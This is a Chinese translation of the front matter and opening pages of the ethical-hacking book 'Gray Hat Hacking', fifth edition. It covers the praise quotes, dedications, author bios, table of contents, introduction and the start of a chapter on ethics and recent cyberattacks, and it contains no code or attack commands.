# 灰帽黑客：道德黑客手册 第五版


# 《灰帽黑客：道德黑客手册》第五版赞誉

“《灰帽黑客》图书系列继续为大量进攻性 IT 安全学科提供最新且详尽的视角。在第五版中，一群备受尊敬的信息安全专家不遗余力地分享了他们在绕过安全机制方面的新颖技术的经验与专业知识。

Stephen Sims 撰写的漏洞开发章节，详细揭示了为现代应用程序编写漏洞利用所需的一切。在第 14 章中，Stephen 利用某主流 Web 浏览器的最近漏洞，揭示了编写针对堆相关内存损坏的现代漏洞利用的复杂性，并在过程中绕过内存保护。

这本书是任何希望提升并拓宽信息安全技能的人的必读之作。”

—Peter Van Eeckhoutte
Corelan 团队 (@corelanc0d3r)

“这是为数不多的我会始终购买更新版本的图书系列之一。向行业内最优秀的讲师学习更新的漏洞开发技术。面向普通信息安全从业者的新信息量之大令人震撼。作者们都是各自领域中最优秀的人选之一，帮助我们跟上当前的趋势和技术。GHH 在红队操作、漏洞赏金、PowerShell 技术以及物联网与嵌入式设备方面的更新，正是信息安全从业者需要添加到工具箱中的内容。”

—Chris Gates
高级安全工程师（Uber）

“此前从未有过如此众多可供攻击的技术，亦未有如此高级别的控制与预防机制。例如，现代操作系统和应用程序在防范漏洞利用方面的进步非常令人印象深刻，但一旦条件合适，它们屡次被绕过。在大量现代且最新的技术中，《灰帽黑客》提供了有关漏洞以及 ASLR 和 DEP 等控制机制如何被绕过的详细且信息丰富的演示。本书充满了可供遵循的真实案例，如果你希望提升对最新黑客技术的理解，那么这正是你需要的书。”

—James Lyne
全球研究顾问（Sophos）兼研发主管（SANS 研究所）

# 怀念 Shon Harris

在上一版中，我曾怀念 Shon Harris，她是我的朋友、导师，也是我在海兵队服役后开启职业生涯的功臣。简而言之，没有她，就不会有本书，也不会有我的大部分职业成就。我继续思念她，而且我知道我也代表其他作者，我们都希望她还与我们在一起。如果您不认识 Shon 或从未听说过她，您应该去了解她在上一版及其他地方的鼓舞人心的故事。对于那些认识她并有自己“Shon”故事的人，请与我一起让她的记忆长存，并将她的故事分享给任何愿意倾听的人。她是一个了不起的人，深受爱戴和怀念。我们献此书以纪念她。

> —Allen Harper

本书的首席作者，也是 Shon Harris 的朋友

> —Allen Harper

我在主里的弟兄姐妹们，请继续奔跑。让你们的光为祂发光，使他人通过你们被祂吸引。

> —Allen Harper

献给你，妈妈 Adelina Arias Cruz，当我问自己我的坚韧不拔、不让任何人看轻我，或为实现目标付出的不懈牺牲从何而来时，我只需要回头看看你，对你来说没有什么是不可能的，我爱你！

> —Daniel Regalado

献给妈妈，在我小时候给我读书，使我能够达到有一天成为作者所需的识字水平。

> —Ryan Linn

献给我可爱的妻子 LeAnne 和女儿 Audrey，感谢你们持续的支持！

> —Stephen Sims

献给我可爱的女儿 Elysia，感谢你无条件的爱与支持。你在许多方面激励着我。我是，并且将永远是，你最大的粉丝。

> —Linda Martinez

献给我的家人和朋友，感谢你们无条件的支持，并让这段生活变得有趣而充满乐趣。

> —Branko Spasojevic

献给我的女儿 Tiernan，感谢你的支持，以及每天提醒我享受生活和学习。我期待看到你成长为一位优秀的女性。


—Michael Baucom

致我的儿子 Aaron，感谢你在我花太多时间在键盘前时给予的所有爱，并感谢你分享我们共同参与的所有项目带来的喜悦。

—Chris Eagle

# 关于作者

艾伦·哈珀博士 (Dr. Allen Harper, CISSP)。2007 年，艾伦·哈珀在伊拉克服役一期后退休，军衔为海军陆战队军官。他拥有 30 多年的 IT/安全经验。他获得了卡佩拉大学 (Capella) 的信息保障与安全方向 IT 博士学位、海军研究生院 (Naval Postgraduate School) 的计算机科学硕士学位，以及北卡罗来纳州立大学 (North Carolina State University) 的计算机工程学士学位。艾伦为 Honeynet 项目主导开发了 GEN III 蜜墙 CD-ROM（代号 roo）。他曾为众多财富 500 强企业和政府机构担任安全顾问。他的兴趣包括物联网、逆向工程、漏洞发现以及各种形式的道德黑客攻击。艾伦是 N2NetSecurity, Inc. 的创始人，曾任 Tangible Security 的执行副总裁兼首席黑客，现今于弗吉尼亚州林奇堡市的自由大学 (Liberty University) 侍奉主。

丹尼尔·雷加拉多 (Daniel Regalado，又名 Danux) 是一名墨西哥安全研究员，在安全领域拥有 16 多年经验，专注于恶意软件、0 日漏洞利用、ATM、物联网设备、输液泵和车载信息娱乐系统的分析或渗透测试。他曾是 FireEye 和 Symantec 等广受尊敬公司的员工，目前是 Zingbox 的首席安全研究员。丹尼尔或许最著名的是他多次发现并分析攻击全球银行的 ATM 恶意软件，最臭名昭著的发现包括 Ploutus、Padpin 和 Ripper。

瑞安·林 (Ryan Linn) 在安全行业拥有 20 多年经验，经历范围从系统程序员到企业安全，再到全球网络安全咨询公司的负责人。瑞安参与了多个开源项目，包括 Metasploit 和浏览器利用框架 (BeEF)。瑞安在 Twitter 上的账号为 @sussurro，并在众多安全会议（包括 Black Hat 和 DEF CON）上发表过研究成果，并在全球范围内提供过攻击技术和取证方面的培训。

斯蒂芬·西姆斯 (Stephen Sims) 是一位在信息技术和安全领域拥有 15 多年经验的行业专家。他目前从旧金山作为顾问开展工作，从事逆向工程、漏洞开发、威胁建模和渗透测试。斯蒂芬拥有诺维奇大学 (Norwich University) 的信息保障硕士学位，是 SANS 研究院 (SANS Institute) 的课程作者、院士和课程负责人，撰写了关于高级漏洞开发和渗透测试的课程。他曾在众多会议上发表演讲，包括 RSA、BSides、OWASP AppSec、ThaiCERT、AISA 等许多其他会议。可通过 Twitter 联系他：@Steph3nSims

布兰科·斯帕索耶维奇 (Branko Spasojevic) 是 Google 检测与响应团队 (Detection and Response team) 的安全工程师。此前，他曾在 Symantec 担任逆向工程师，分析过各种威胁和 APT 组织。

琳达·马丁内兹 (Linda Martinez) 是 Tangible Security 的首席信息安全官 (CISO) 兼商业服务交付副总裁。琳达是一位经验证的信息安全高管和行业专家，拥有 18 多年领导技术团队、开发技术业务线并向客户提供高品质咨询服务的经验。她负责 Tangible Security 的商业部门，领导以下业务线：渗透测试（包括红队和紫队操作）；硬件黑客攻击；产品和供应链安全；治理、风险管理和合规性；事件响应和数字取证。琳达还领导一个由虚拟首席信息安全官 (vCISO) 组成的团队，为许多组织提供专家指导。在担任现职之前，琳达曾是 N2 Net Security 的运营副总裁。在此之前，她是 Executive Instruments（一家信息安全研究和咨询公司）的联合创始人兼首席运营官 (COO)。

迈克尔·鲍考姆 (Michael Baucom) 目前就职于 Tangible Security，担任 Tangible Labs 副总裁。在 Tangible 期间，他参与了各种项目，包括软件安全评估、SDLC 咨询、工具开发和渗透测试。在加入 Tangible Security 之前，他曾在海军陆战队担任地面无线电维修员。此外，他还曾在 IBM、Motorola 和 Broadcom 担任多个职位，包括测试工程、设备驱动程序开发以及嵌入式系统的系统软件开发。除了工作活动外，迈克尔还在 Black Hat 担任过培训师，在多个会议上担任演讲者，并担任《Gray Hat Hacking: The Ethical Hacker’s Handbook》的技术编辑。他目前的兴趣在于自动化渗透测试活动、嵌入式系统安全和手机安全。

克里斯·伊格尔 (Chris Eagle) 是加利福尼亚州蒙特雷海军研究生院 (Naval Postgraduate School) 计算机科学系的高级讲师。作为一名拥有 30 多年经验的计算机工程师/科学家，他撰写了多本书籍，曾担任 DARPA 网络大挑战 (Cyber Grand Challenge) 的首席架构师，经常在安全会议上发表演讲，并向安全社区贡献了多个流行的开源工具。

已故的肖恩·哈里斯 (The late Shon Harris) 令人深切怀念。她是 Logical Security 的总裁，一名安全顾问，曾是空军信息战部队的工程师，也是一位讲师和作者。她撰写了畅销书《CISSP 考试指南》（目前为第七版）以及许多其他书籍。肖恩为许多不同行业的多家公司提供过咨询。她曾向广泛的客户群体教授计算机和信息安全，包括 RSA、国防部、能源部、西点军校、国家安全局 (NSA)、美国银行、国防信息系统局 (DISA)、BMC 以及更多机构。肖恩曾被《信息安全杂志》(Information Security Magazine) 评为信息安全领域 25 位杰出女性之一。

免责声明：本书中表达的观点仅代表作者个人意见，并不代表美国政府或本书中提及的任何公司的观点。

# 关于技术编辑

希瑟·林 (Heather Linn) 在安全行业拥有 20 多年经验，曾担任企业安全、渗透测试以及猎杀团队成员等职务。她参与了包括 Metasploit 在内的开源框架开发，并为全球教授的取证、渗透测试和信息安全课程贡献了教材。

希瑟曾在许多安全会议上发表演讲，包括多次 BSides 会议、当地 ISSA 分会会议，以及面向信息安全领域新生的旨在提供现实期望的学生活动。

# 前言

# 致谢

# 引言

# 第一部分 准备工作

## 第1章 为什么进行灰帽黑客攻击？伦理与法律
### 了解你的敌人
- 当前安全态势
- 识别攻击

### 灰帽方式
- 模拟攻击
- 测试的频率与重点

### 网络法律的演变
- 了解个别网络法律

### 摘要

### 参考文献

## 第2章 编程生存技能
### C编程语言
- C语言基本结构
- 示例程序
- 使用gcc编译

### 计算机内存
- 随机存取存储器
- 字节序
- 内存分段
- 内存中的程序
- 缓冲区
- 内存中的字符串
- 指针
- 将内存碎片组合起来

### Intel处理器
- 寄存器

### 汇编语言基础
- 机器语言 vs. 汇编语言 vs. C语言
- AT&T vs. NASM
- 寻址方式
- 汇编文件结构
- 汇编

### 使用gdb调试
- gdb基础
- 使用gdb反汇编

### Python生存技能
- 获取Python
- Python中的“Hello, World!”
- Python对象
- 字符串
- 数字
- 列表
- 字典
- Python中的文件操作
- Python中的套接字

### 摘要

### 进一步阅读

### 参考文献

## 第3章 下一代模糊测试
### 模糊测试简介

### 模糊测试器类型
- 变异模糊测试器
- 生成模糊测试器
- 遗传模糊测试

### 使用Peach进行变异模糊测试
- 实验 3-1：使用Peach进行变异模糊测试

### 使用Peach进行生成模糊测试
- 崩溃分析
- 实验 3-2：使用Peach进行生成模糊测试

### 使用AFL进行遗传或进化模糊测试
- 实验 3-3：使用AFL进行遗传模糊测试

### 摘要

### 进一步阅读

## 第4章 下一代逆向工程
### 代码注释

### 使用IDAscope进行IDB注释

### C++代码分析

### 协作分析

### 使用FIRST利用协作知识

### 与BinNavi协作

### 动态分析

### 使用Cuckoo Sandbox进行自动化动态分析

### 使用Labeless弥合静态-动态工具差距

### 摘要

### 进一步阅读

### 参考文献

## 第5章 软件定义无线电
### SDR入门

### 购买指南

### 慢着：了解规则

### 通过示例学习

### 搜索

### 捕获

### 回放

### 分析

### 预览

### 执行

### 摘要

### 进一步阅读

# 第二部分 黑客商业

## 第6章 你想成为渗透测试人员吗？
### 从新手到专家的旅程

### 渗透测试人员的信条

### 渗透测试人员分类学

### 黑客攻击的未来

### 了解技术

### 了解什么是好的表现

### 渗透测试人员培训

### 实践

### 学位课程

### 知识转移

### 渗透测试人员技艺

### 个人责任

### 做可信赖的顾问

### 管理渗透测试

### 摘要

### 进一步阅读

## 第7章 红队行动
### 红队行动

### 战略、运营和战术重点

### 评估比较

### 红队演习目标

### 可能出错的地方

### 范围受限

### 时间有限

### 受众有限

### 克服局限性

### 沟通

### 计划会议

### 定义可衡量事件

### 了解威胁

### 攻击框架

### 测试环境

### 自适应测试

### 外部评估

### 物理安全评估

### 社交工程

### 内部评估

### 经验教训

### 摘要

### 参考文献

## 第8章 紫队演习
### 紫队演习简介

### 蓝队行动

### 了解你的敌人

### 了解自己

### 安全计划

### 事件响应计划

### 蓝队演习常见挑战

### 紫队演习行动

### 决策框架

### 打破杀伤链

### 杀伤链对策框架

### 沟通

### 紫队优化

### 摘要

### 进一步阅读

### 参考文献

## 第9章 漏洞赏金计划
### 漏洞披露历史

### 完全厂商披露

### 完全公开披露

### 负责任披露

### 不再免费提供漏洞

### 漏洞赏金计划

### 漏洞赏金计划类型

### 激励措施

### 围绕漏洞赏金计划的争议

### 流行的漏洞赏金计划推动者

### 深入了解Bugcrowd

### 计划所有者Web界面

### 计划所有者API示例

### 研究人员Web界面

### 靠发现漏洞谋生

### 选择目标

### 注册（如有需要）

### 了解游戏规则

### 发现漏洞

### 报告漏洞

### 变现

### 事件响应

### 沟通

### 分诊

### 修复

### 对用户披露

### 公共关系

### 摘要

### 进一步阅读

### 参考文献

# 第三部分

## 利用系统

## 第10章 不使用漏洞获取shell
### 捕获密码哈希

### 理解LLMNR和NBNS

### 理解Windows NTLMv1和NTLMv2

### 身份验证

### 使用Responder
- 实验 10-1：使用Responder获取密码

### 使用Winexe
- 实验 10-2：使用Winexe访问远程系统
- 实验 10-3：使用Winexe获取提升特权

### 使用WMI
- 实验 10-4：使用WMI查询系统信息
- 实验 10-5：使用WMI执行命令

### 利用WinRM
- 实验 10-6：使用WinRM执行命令
- 实验 10-7：使用WinRM远程运行PowerShell

### 摘要

### 进一步阅读

### 参考文献

## 第11章 基础Linux漏洞利用
### 栈操作与函数调用过程

### 缓冲区溢出
- 实验 11-1：溢出meet.c

### 缓冲区溢出的后果

### 本地缓冲区溢出漏洞利用
- 实验 11-2：漏洞利用组件
- 实验 11-3：从命令行利用栈溢出
- 实验 11-4：使用通用漏洞利用代码利用栈溢出
- 实验 11-5：利用小缓冲区

### 漏洞利用开发过程
- 实验 11-6：构建自定义漏洞利用

### 摘要

### 进一步阅读

## 第12章 高级Linux漏洞利用
### 格式化字符串漏洞利用
- 格式化字符串
- 实验 12-1：从任意内存读取
- 实验 12-2：写入任意内存
- 实验 12-3：更改程序执行流程

### 内存保护方案
- 编译器改进
- 实验 12-4：绕过栈保护
- 内核补丁和脚本
- 实验 12-5：返回libc漏洞利用
- 实验 12-6：使用ret2libc维持特权
- 底线

### 摘要

### 进一步阅读

### 参考文献

## 第13章 Windows漏洞利用
### 编译和调试Windows程序
- 实验 13-1：在Windows上编译
- Windows编译器选项
- 使用Immunity Debugger在Windows上调试
- 实验 13-2：使程序崩溃

### 编写Windows漏洞利用
- 漏洞利用开发过程回顾
- 实验 13-3：利用ProSSHD服务器

### 理解结构化异常处理(SEH)

### 理解和绕过Windows内存保护
- 安全结构化异常处理(SafeSEH)
- 绕过SafeSEH
- SEH覆盖保护(SEHOP)
- 绕过SEHOP
- 基于栈的缓冲区溢出检测(/GS)
- 绕过/GS
- 堆保护

### 摘要

### 进一步阅读

### 参考文献

## 第14章 高级Windows漏洞利用
- 数据执行保护(DEP)
- 地址空间布局随机化(ASLR)
- 增强缓解体验工具包(EMET)和Windows Defender Exploit Guard
- 绕过ASLR
- 绕过DEP并避免ASLR
- VirtualProtect
- 面向返回编程
- 小工具
- 构建ROP链
- 通过内存泄漏击败ASLR
- 触发漏洞
- 追踪内存泄漏
- 利用内存泄漏构建武器
- 构建RVA ROP链
### 摘要
### 进一步阅读
### 参考文献

## 第15章 PowerShell漏洞利用
- 为什么选择PowerShell
- 利用现有工具
- PowerShell日志记录
- PowerShell可移植性
- 加载PowerShell脚本
- 实验 15-1：失败条件
- 实验 15-2：在命令行传递命令
- 实验 15-3：编码命令
- 实验 15-4：通过Web引导
- 使用PowerSploit进行漏洞利用和事后利用
- 实验 15-5：设置PowerSploit
- 实验 15-6：通过PowerShell运行Mimikatz
- 实验 15-7：使用PowerSploit创建持久Meterpreter
- 使用PowerShell Empire进行C2
- 实验 15-8：设置Empire
- 实验 15-9：部署Empire C2
- 实验 15-10：使用Empire控制系统
### 摘要


### 进一步阅读

### 参考文献

## 第16章 下一代Web应用程序利用

### 跨站脚本（XSS）的演变
### 搭建环境
- 实验 16-1：XSS 复习
- 实验 16-2：来自互联网智慧的XSS规避
- 实验 16-3：使用XSS更改应用程序逻辑
- 实验 16-4：使用DOM进行XSS

### 框架漏洞
### 搭建环境
- 实验 16-5：利用CVE-2017-5638
- 实验 16-6：利用CVE-2017-9805

### 填充预言攻击
- 实验 16-7：使用填充预言攻击更改数据

### 总结
### 进一步阅读
### 参考文献

## 第17章 下一代补丁利用

### 二进制差异比较简介
### 应用程序差异比较
### 补丁差异比较

### 二进制差异比较工具
- BinDiff
- turbodiff
- 实验 17-1：我们的第一个差异比较

### 补丁管理流程
### Microsoft 补丁星期二

### 获取和提取Microsoft补丁
- 实验 17-2：差异比较MS17-010

### 利用目的的补丁差异比较
### DLL侧载漏洞
- 实验 17-3：差异比较MS16-009

### 总结
### 进一步阅读
### 参考文献

# 第四部分 高级恶意软件分析

## 第18章 剖析移动恶意软件

### Android平台
- Android应用程序包
- 应用程序清单
- 分析DEX
- Java反编译
- DEX反编译
- DEX反汇编
- 示例 18-1：在模拟器中运行APK
- 恶意软件分析

### iOS平台
- iOS安全性
- iOS应用程序
- 总结
- 进一步阅读
- 参考文献

## 第19章 剖析勒索软件

### 勒索软件的开端
### 支付赎金的选项
### 剖析Ransomlock
- 示例 19-1：动态分析
- 示例 19-2：静态分析
### WannaCry
- 示例 19-3：分析WannaCry勒索软件
### 总结
### 进一步阅读

## 第20章 ATM恶意软件

### ATM概述
### XFS概述
### XFS架构
### XFS管理器
### ATM恶意软件分析
### ATM恶意软件类型
### 在ATM上安装恶意软件的技术
### 剖析恶意软件的技术
### ATM恶意软件对策
### 总结
### 进一步阅读
### 参考文献

## 第21章 欺骗：下一代蜜罐

### 欺骗简史
### 蜜罐作为一种欺骗形式
### 部署注意事项
### 设置虚拟机
### 开源蜜罐
- 实验 21-1：Dionaea
- 实验 21-2：ConPot
- 实验 21-3：Cowrie
- 实验 21-4：T-Pot
### 商业替代方案：TrapX
### 总结
### 进一步阅读
### 参考文献

# 第五部分 物联网

## 第22章 待黑客攻击的物联网

### 物联网（IoT）
### 连接事物的类型
### 无线协议
### 通信协议
### 安全问题
### Shodan IoT搜索引擎
### Web界面
### Shodan命令行界面
- 实验 22-1：使用Shodan命令行
### Shodan API
- 实验 22-2：测试Shodan API
- 实验 22-3：玩转MQTT
### 对未经身份验证的MQTT访问的影响
### 物联网蠕虫：只是时间问题
- 实验 22-4：Mirai依然存活
### 预防
### 总结
### 进一步阅读
### 参考文献

## 第23章 剖析嵌入式设备

### CPU
### 微处理器
### 微控制器
### 片上系统（SoC）
### 常见处理器架构
### 串行接口
### UART
### SPI
### I²C
### 调试接口
### JTAG
### SWD（串行线调试）
### 软件
### 引导程序
### 无操作系统
### 实时操作系统
### 通用操作系统
### 总结
### 进一步阅读
### 参考文献

## 第24章 利用嵌入式设备

### 嵌入式设备中漏洞的静态分析
- 实验 24-1：分析更新包
- 实验 24-2：执行漏洞分析

### 使用硬件的动态分析

### 测试环境设置
- Ettercap

### 使用仿真的动态分析

### FIRMADYNE
- 实验 24-3：设置FIRMADYNE
- 实验 24-4：仿真固件
- 实验 24-5：利用固件

### 总结
### 进一步阅读
### 参考文献

## 第25章 抵御物联网恶意软件

### 物理访问设备

### RS-232概述

### RS-232引脚定义

- 练习 25-1：排查医疗设备RS-232端口故障

### 搭建威胁实验室

### ARM和MIPS概述

- 实验 25-1：使用QEMU设置系统

### 物联网恶意软件动态分析

- 实验 25-2：物联网恶意软件动态分析

### 架构无关动态分析平台（PANDA）

### BeagleBone Black开发板

### 反向工程物联网恶意软件

### ARM/MIPS指令集速成

- 实验 25-3：IDA Pro远程调试与逆向

- 物联网恶意软件逆向练习

### 总结
### 进一步阅读
# 索引

# 前言

本书由致力于以合乎道德和负责任的方式工作、以改善个人、企业和国家整体安全态势的安全专业人员开发，并供其使用。

# 致谢

每位作者都要感谢McGraw-Hill Education的工作人员。特别是，我们要感谢Wendy Rinaldi和Claire Yee。你们付出了额外的努力，使我们保持在正轨上，并在整个过程中给予了极大的帮助。你们最高水平的专业精神和对本项目不知疲倦的奉献精神真正值得称赞，也为贵出版社赢得了荣誉。谢谢。

Allen Harper要感谢他美丽的妻子Corann和美丽的女儿Haley和Madison，在我追逐另一个梦想的过程中给予的支持与理解。

看到我们的家庭和每个人每年在基督里变得更加坚强，真是太好了。Madison和Haley，我深深地爱你们俩，并为你们成长为的年轻女士感到自豪。此外，我要感谢我前任和现任雇主的成员。对于Tangible Security的朋友们，我感谢你们对我的生活产生的影响——你们让我变得更好。对于Liberty University中在基督里的弟兄姐妹们，我对未来的岁月充满期待，我们将共同劳作，致力于培养为基督而战的冠军！

Daniel Regalado想首先感谢上帝赐予他活着的祝福，感谢他的妻子Diana忍受他，始终激励他，像庆祝她自己的胜利一样庆祝他的每一个胜利，因为她如此美丽和运动，我爱你！感谢他的儿子Fercho和Andrick，他们是家里的光和他每天的动力，最后但同样重要的是Regalado Arias家族：Fernando、Adelina、Susana Erwin和Belem，没有他们，他的胜利就不会一样，我爱你们！以及他的父亲Fernando，直到他最后呼吸的那一天，他将怀着再次拥抱你的希望而活着。Cape、Cone、Rober，兄弟情谊永存！

Branko Spasojevic要感谢他的家人——Sanja、Sandra、Ana Marija、Magdalena、Ilinka、Jevrem、Olga、Dragisa、Marija和Branislav——对他们所传递的所有支持和知识表示感谢。

还要感谢所有让工作和娱乐变得有趣的朋友和同事。值得特别提及的人有Ante Gulam、Antonio、Cedric、Clement、Domagoj、Drazen、Goran、Keith、Luka、Leon、Matko、Santiago、Tory，以及TAG、Zynamics、D&R和Orca的每个人。

Ryan Linn要感谢Heather的支持、鼓励和建议，以及他的家人和朋友的支持，感谢他们在书籍编写期间忍受了长时间的工作和不频繁的沟通。

还要感谢Ed Skoudis激励我做出色的事情，以及HD、Egypt、Nate、Shawn和所有其他在我最需要的时候提供代码协助、指导和支持的朋友和家人。

Stephen Sims要感谢他的妻子LeAnne和女儿Audrey，他们为研究、写作、工作、教学和旅行提供了所需时间并持续支持。他还要感谢他的父母George和Mary以及妹妹Lisa，感谢他们远方的支持。最后，特别感谢所有杰出的安全研究人员，他们通过出版物、讲座和工具为社区做出了巨大贡献。

Chris Eagle要感谢他的妻子Kristen，她是让他能够做所有事情的基石。没有她持续的支持，这一切都不可能实现。

Linda Martinez要感谢她的爸爸妈妈是如此令人愉快的人，并始终树立了值得追随的榜样。Linda还要感谢她的女儿Elysia，多年来的鼓励让她能够追求自己的热情。

要感谢我的朋友们以及行业内一些最聪明的人——Allen、Zack、Rob、Ryan、Bill和Shon，愿她安息。

Michael Baucom要感谢他的妻子Bridget和女儿Tiernan，感谢他们为让他追求职业目标所做出的牺牲和支持。

我也要感谢我的父母，感谢他们的爱、支持，以及在我心中灌输带我走到今天的职业操守。此外，我要感谢海军陆战队，给予我勇气和信心去理解一切皆有可能。最后，我要感谢我在基督里的兄弟、长期的朋友和同事Allen Harper。没有一个优秀的团队，一事无成。

我们作者还要集体感谢Hex-Rays慷慨允许使用他们的工具IDA Pro。


# INTRODUCTION

> *历史告诉我们，当政府认为侵略的代价很低时，战争就会开始。*
> —罗纳德·里根

> *你不能说文明没有进步……在每一场战争中，他们都以新的方式杀死你。*
> —威尔·罗杰斯

> *战争的最高艺术是不战而屈人之兵。*
> —孙子

本书的目的是向个人提供曾经仅由政府和少数黑帽黑客掌握的信息。在这个时代，个人正处于网络战争的最前线，不仅要对抗黑帽黑客，有时还要对抗政府。如果您发现自己处于这种地位，无论是独自一人还是作为组织的防御者，我们希望您尽可能掌握关于攻击者的知识。为此，我们向您呈灰帽黑客的思维方式，一种出于防御目的使用进攻技术的道德黑客。道德黑客始终尊重法律和他人的权利，但相信可以通过先对自己进行测试来抢占先机，击败对手。

本书的作者希望为您，读者，提供我们相信行业和整个社会所需要的东西：一份全面的道德黑客审查，其意图和材料既负责又真正符合道德。这就是为什么我们不断发布本书的新版本，并明确定义什么是道德黑客，什么不是——我们的社会对此非常困惑。

我们已更新了第四版的材料，并尝试提供最全面、最新的技术、程序和材料汇编，包含读者可以复制的真实动手实验。呈现了十三个新章节，其他章节也已更新。

在第一部分中，我们为您准备好所有必要的工具和技术，以便更好地理解更高级的主题。本节进展相当迅速，但对于刚进入该领域以及希望升级到下一级的其他人来说是必要的。本节涵盖以下内容：

- 白帽、黑帽和灰帽的定义与特征
- 在进行任何类型的道德黑客活动之前应了解的棘手伦理问题
- 编程生存技能，这是灰帽黑客创建漏洞利用程序或审查源代码所必备的技能
- 模糊测试，这是寻找0-day漏洞利用的绝妙技能
- 逆向工程，这是分析恶意软件或研究漏洞时的强制性技能
- 使用软件定义无线电进行漏洞利用

在第二部分中，我们讨论黑客的商业方面。如果您希望将黑客作为爱好超越并开始赚钱养家，本节适合您。如果您是经验丰富的黑客专业人士，我们也希望能为您提供一些技巧。在本节中，我们涵盖了一些道德黑客谋生所需的较软技能：

- 如何进入渗透测试业务
- 如何通过红队演练改善企业安全态势
- 开发紫色团队的新方法
- 漏洞奖励计划以及如何合乎道德地通过发现漏洞获得报酬

在第三部分中，我们讨论利用系统所需的技能。这些主题以前都有所涉及，但旧的漏洞利用程序不再有效；因此，我们已更新讨论内容以绕过系统防护。本节涵盖以下主题：

- 如何在不使用漏洞利用程序的情况下获取 shell 访问权限
- 基础和高级 Linux 漏洞利用
- 基础和高级 Windows 漏洞利用
- 使用 PowerShell 利用系统
- 现代 Web 漏洞利用
- 使用补丁开发漏洞利用

在第四部分中，我们介绍高级恶意软件分析。在很多方面，这是网络安全领域中最先进的主题。在网络战争的最前线是恶意软件，我们的目标是为您提供执行恶意软件分析所需的工具和技术。本节涵盖以下内容：

- 移动恶意软件分析
- 近期勒索软件分析
- ATM 恶意软件分析
- 使用下一代蜜罐在网络中查找高级攻击者和恶意软件

最后，在第五部分中，我们自豪地讨论物联网（IoT）黑客的话题。物联网正在爆炸式增长，不幸的是，其中的漏洞也是如此。

在本节中，我们讨论这些最新主题：

- 待攻击的物联网
- 分析嵌入式设备
- 利用嵌入式设备
- IoT 设备的恶意软件分析

我们确实希望您能看到所提供的新内容的价值，并享受新更新的章节。如果您是该领域的新手，或准备好迈出下一步来提升和加深对道德黑客的理解，那么这本书适合您。


注意 为确保您的系统配置正确以执行实验，我们已提供所需文件。实验材料和勘误表可从 GitHub 仓库 https://github.com/GrayHatHacking/GHHv5 或出版社网站 www.mhprofessional.com 下载。

# PART I

## 准备

- 第 1 章 为什么进行灰帽黑客攻击？伦理与法律
- 第 2 章 编程生存技能
- 第 3 章 下一代模糊测试
- 第 4 章 下一代逆向工程
- 第 5 章 软件定义无线电

## 第 1 章

### 为什么进行灰帽黑客攻击？伦理与法律

本书的目的是支持希望提升道德黑客技能以更好地防御恶意攻击者的个人。本书不是为那些希望从事非法和不道德活动的人编写的工具。

在本章中，我们讨论以下主题：

- 了解你的敌人：理解敌人的战术
- 灰帽方式与道德黑客流程
- 网络法的演变

### 了解你的敌人

> “我们不能用制造问题时的同一层次思维来解决问题。”
> —阿尔伯特·爱因斯坦

当今我们面临的安全挑战与未来将面临的挑战相比将显得微不足道。我们已经生活在一个与技术高度融合的世界，网络安全影响着我们的金融市场、选举、家庭和医疗保健。
技术正在进步，威胁态势正在加剧。一方面，能够自动驾驶的车辆正在大规模生产，智慧城市正在建设中。另一方面，医院正遭到赎金软件攻击，电网正在被关闭，知识产权和机密正在被窃取，网络犯罪是一个蓬勃发展的行业。为了保护我们的资产和人民，我们必须了解敌人及其运作方式。了解攻击是如何进行的，是保护我们所依赖的技术最具挑战性和最重要的方面之一。毕竟，我们如何可能防御未知的威胁？

本书的编写旨在为致力于遏制网络威胁的人们提供相关的安全信息。应对当今和未来的网络威胁的唯一方法是拥有知识渊博的安全行业。学习进攻性安全可以让您测试和改进防御。恶意行为者知道如何入侵系统和网络。了解敌人的战术对于制定进攻和防御策略至关重要。那些已接受保护我们技术责任的人必须了解入侵是如何发生的，以便防御它们。

### 当前的安全格局

技术可以用于善或恶。同样的技术，既可用于使组织和国家更具生产力，也可用于窃取、监视和造成伤害。这种双重性意味着，我们创造来帮助我们的技术有时会伤害我们，用于为人权而战的技术也可能被用于侵犯人权，而工具


用来保护我们的东西也可以用来攻击我们。犯罪团体已经演变为大规模滥用技术，带来巨额利润，使全球经济每年蒙受估计4500亿美元的损失。

尊重你的敌人。恶意行为者拥有各种动机和策略，其攻击的规模和复杂性正在增加。请考虑以下内容：

- 2016年2月，攻击者针对Swift（全球银行转账系统），欺诈性地从孟加拉银行在纽约联邦储备银行的账户转移了8100万美元。大部分资金在被路由到菲律宾的账户并转移到当地赌场后未被追回。¹

- 2016年7月，发现民主党全国委员会（DNC）遭到入侵，官员的有害电子邮件在WikiLeaks上泄露。该攻击被归咎于两个俄罗斯对抗组织。中央情报局得出结论称，俄罗斯在2016年美国大选期间致力于阻止希拉里·克林顿赢得美国总统职位。²

- 2016年10月，数百万个不安全的物联网（IoT）摄像头和数字录像机（DVR）被用于针对DNS提供商Dyn的分布式拒绝服务（DDoS）攻击。Mirai僵尸网络在其源代码公开一个月后被用来攻下Twitter、Netflix、Etsy、GitHub、SoundCloud和Spotify等服务。³

- 2016年12月，乌克兰首都基辅因网络攻击发生停电，影响超过22.5万人，持续数天。攻击者破坏了电力分配设备，从而使恢复供电的努力变得复杂。这次攻击引发了关于工业控制系统（ICSs）漏洞的讨论，并与俄罗斯有关。⁴

近年来，我们看到联邦调查局（FBI）、国土安全部（DHS）、索尼娱乐、Equifax、联邦存款保险公司（FDIC）和国税局（IRS）都发生了重大数据泄露——有时是多次大规模泄露。我们看到像臭名昭著的好莱坞长老会医学中心这样的医院支付了赎金，以便能够继续运营。虽然有些攻击的影响比其他攻击更大，但平均而言，一次网络攻击给组织造成的损失约为400万美元，有些泄露的损失高达数亿美元。

安全行业也在演变。旨在促进自愈网络的产品参加了首届DARPA网络大挑战赛。基于机器学习的恶意软件解决方案正在取代基于签名的解决方案。集成安全运营中心（ISOCs）正在帮助安全领域协作。网络安全会议、学位课程和培训越来越受欢迎。安全行业正以新工具、新理念和新合作应对日益增加的网络攻击。

攻击者有不同的动机。有些出于经济动机，目的是赚取尽可能多的利润；有些出于政治动机，目的是破坏政府或窃取国家机密；有些受社会事业驱动，被称为“黑客活动主义者”；有些只是愤怒，只想报复。

## 识别攻击

